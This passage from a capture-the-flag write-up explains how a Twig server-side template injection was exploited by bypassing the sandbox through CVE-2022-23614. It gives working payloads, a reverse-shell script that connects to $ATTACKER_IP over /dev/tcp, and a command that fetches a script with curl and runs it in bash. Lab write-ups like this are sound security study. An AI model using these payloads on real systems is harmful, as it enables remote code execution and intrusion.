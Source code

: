 After trying some common payloads I found an interesting error get reflected on the dashboard; it's talking about *clousres*, *filters* and a sandbox mode. I don't know much PHP, so I needed to do some research to understand what was going on; without getting in too much detail, Twig is preventing us from executing unsafe code, so we need to bypass the sandbox.
```
{{ ['id']|filter('system') }} 

The callable passed to "filter" filter must be a Closure in sandbox mode in "__string_template__8a0a34f3ef7bb4027995c4af464e338fdb11b6a04e25524a117eb8284867d004" at line 1.
```

Searching "twig SSTI bypass sandbox" I found [**CVE-2022-23614**](https://nvd.nist.gov/vuln/detail/CVE-2022-23614), a vulnerability where the `sort` filter doesn't properly enforce the sandbox. At this point I tried the PoC payload `{{ ['id', ""]|sort('system') }}`, but I only get "Welcome,  Array!"; this is because the way `system` redirects its output, changing it to `{{ ['id', ""]|sort('passthru') }}` works properly, as can be seen below.

<img src="./screens/13_ssti_twig_bypass.PNG">
<img src="./screens/14_ssti_twig_bypass.PNG">

## Exploiting the SSTI (shell)

The final step is obtaining a reverse shell. I made several attempts before getting it right, I ended up creating a `shell.sh` file that is executed on the server to connect back to us:
```bash
#!/bin/bash
# shell.sh
sh -i >& /dev/tcp/$ATTACKER_IP/4242 0>&1
```

To get a shell:
1. Run `nc -lnvp 4242` on attacker machine.
2. Run `python -m http.server` to make the shell available.
3. Use the payload `{{ ['curl http://$ATTACKER_IP:8000/shell.sh|bash', ""]|sort('passthru') }}` on `update_profile.php`.
4. Reload the dashboard.
   
<img src="./screens/15_shell.PNG"/>

> From there I found the flag without further exploitation.